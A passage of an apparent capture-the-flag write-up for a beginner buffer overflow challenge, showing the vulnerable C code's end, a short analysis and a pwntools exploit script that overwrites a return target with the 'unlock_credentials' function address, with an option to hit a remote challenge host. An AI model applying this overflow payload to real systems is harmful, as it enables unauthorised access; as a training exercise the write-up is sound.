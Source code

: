 ```c
        printf("INSUFFICIENT CLEARANCE. Access restricted to public areas.\n");
    }
}

int main()
{
    authenticate_user();
    return 0;
}
```

### Exploitation Steps 
#### Analysis
Not much to say, the easiest type of binary exploitation challenge. The solution is fill up the buffer `employee_id` with garbage and overwrite variable `clearance_level` with `0x1337`.

#### Done
That is it. Just see the solution.

### Solution

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./overflow1_patched")

context.binary = elf
context.terminal = ["alacritty", "-e", "sh", "-c"]
dbginit = """
b main
"""


def find_offset():
    r = process([elf.path])
    gdb.attach(r)
    p = cyclic(1000)
    r.sendline(p)
    r.interactive()


def conn():
    if args.REMOTE:
        r = remote("34.66.146.178", 9653)
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=dbginit)
    else:
        r = process([elf.path])
    return r


def main():
    r = conn()

    offset = 40 * b'i'
    win = elf.sym["unlock_credentials"]

    payload = offset + p32(win)

    r.sendline(payload)
    r.recvuntil(b'CREDENTIALS UNLOCKED: ')
```